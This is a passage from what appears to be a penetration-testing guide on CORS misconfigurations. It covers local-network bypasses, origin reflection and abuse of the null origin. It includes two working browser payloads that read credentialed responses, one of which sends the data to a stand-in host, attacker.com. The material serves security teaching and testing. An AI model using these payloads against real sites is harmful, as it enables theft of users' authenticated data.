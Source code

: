 {% hint style="warning" %}
Note that the linux **0.0.0.0** IP works to **bypass** these requirements to access localhost as that IP address is not considered "local".

It's also possible to **bypass the Local Network requirements** if you use the **public IP address of a local endpoint** (like the public IP of the router). Because in several occations, even if the **public IP** is being accessed, if it's **from the local network**, access will be granted.
{% endhint %}

## Exploitable misconfigurations

It has been observed that the setting of `Access-Control-Allow-Credentials` to **`true`** is a prerequisite for most **real attacks**. This setting permits the browser to send credentials and read the response, enhancing the attack's effectiveness. Without this, the benefit of making a browser issue a request over doing it oneself diminishes, as leveraging a user's cookies becomes unfeasible.

### Exception: Exploiting Network Location as Authentication

An exception exists where the victim's network location acts as a form of authentication. This allows for the victim's browser to be used as a proxy, circumventing IP-based authentication to access intranet applications. This method shares similarities in impact with DNS rebinding but is simpler to exploit.

### Reflection of `Origin` in `Access-Control-Allow-Origin`

The real-world scenario where the `Origin` header's value is reflected in `Access-Control-Allow-Origin` is theoretically improbable due to restrictions on combining these headers. However, developers seeking to enable CORS for multiple URLs may dynamically generate the `Access-Control-Allow-Origin` header by copying the `Origin` header's value. This approach can introduce vulnerabilities, particularly when an attacker employs a domain with a name designed to appear legitimate, thereby deceiving the validation logic.

```html
<script>
   var req = new XMLHttpRequest();
   req.onload = reqListener;
   req.open('get','https://example.com/details',true);
   req.withCredentials = true;
   req.send();
   function reqListener() {
       location='/log?key='+this.responseText;
   };
</script>
```

### Exploiting the `null` Origin

The `null` origin, specified for situations like redirects or local HTML files, holds a unique position. Some applications whitelist this origin to facilitate local development, inadvertently allowing any website to mimic a `null` origin through a sandboxed iframe, thus bypassing CORS restrictions.

```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
  var req = new XMLHttpRequest();
  req.onload = reqListener;
  req.open('get','https://example/details',true);
  req.withCredentials = true;
  req.send();
  function reqListener() {
    location='https://attacker.com//log?key='+encodeURIComponent(this.responseText);
  };
</script>"></iframe>
```

